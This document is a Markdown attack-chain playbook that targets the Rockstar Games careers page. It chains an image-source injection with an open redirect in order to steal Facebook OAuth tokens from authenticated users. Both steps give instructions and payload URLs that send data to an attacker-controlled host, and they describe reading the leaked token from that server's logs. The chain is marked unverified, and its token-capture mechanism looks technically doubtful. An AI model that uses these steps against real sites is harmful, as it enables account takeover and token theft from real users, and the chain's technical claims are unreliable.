

# Chained Image Injection and Open Redirect for Facebook OAuth Token Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in the Rockstar Games website to steal Facebook OAuth tokens.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser developer tools for inspecting and modifying page elements
- Proxy tool like Burp Suite for intercepting requests (optional but recommended)

### Target Environment

- Web platform
- Access to https://www.rockstargames.com/careers
- Victim must be authenticated with Facebook OAuth on the site

### Initial Access Requirements

- Public access to the careers page
- No special credentials needed for injection testing
- Knowledge of the open redirect endpoint

## Detailed Attack Procedures

### Step 1: Exploit Image Injection
procedure: [[procedures/Exploit-Image-Injection-in-Careers-Page]]

**Objective**: Inject a malicious image source URL into the careers offices page to control loaded resources.

**Instructions**: Navigate to https://www.rockstargames.com/careers#/offices/. Use browser developer tools to identify image elements (e.g., office location images). Modify the src attribute of an image tag to point to a controlled URL, such as an attacker-hosted image that will later be chained. For testing, use a simple payload like `src="https://attacker.com/malicious-image.jpg?param=inject"`. Reload the page to confirm the injection loads the external resource.

**Expected Output**: The page loads the injected image from the attacker-controlled URL, confirming lack of sanitization.

**Success Indicators**:
- Injected image loads without errors
- Network tab shows request to attacker URL

### Step 2: Chain with Open Redirect for Exfiltration
procedure: [[procedures/Chain-Open-Redirect-for-Token-Exfiltration]]

**Objective**: Leverage the open redirect to manipulate the Referer header during OAuth flow, exfiltrating the Facebook token to an attacker server.

**Instructions**: Identify the open redirect endpoint (e.g., via testing URLs like https://www.rockstargames.com/redirect?url=external). Set the injected image src to the open redirect URL pointing to attacker.com, e.g., `src="https://www.rockstargames.com/redirect?url=https%3A%2F%2Fattacker.com%2Fsteal?token={oauth_token}"`. During a Facebook OAuth login on the site, the referer will include the token when the image loads, sending it to the attacker server. Monitor attacker.com logs for the leaked referer data containing the token.

**Expected Output**: Attacker server receives HTTP request with Referer header containing the OAuth token.

**Success Indicators**:
- Redirect executes without validation
- Token appears in attacker logs

## Attack Chain Summary

### Key Achievements

1. Successful injection of malicious image source
2. Chaining with open redirect to control Referer
3. Exfiltration of sensitive Facebook OAuth tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Steal Web Session Cookie]] Steal Web Session Cookie

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
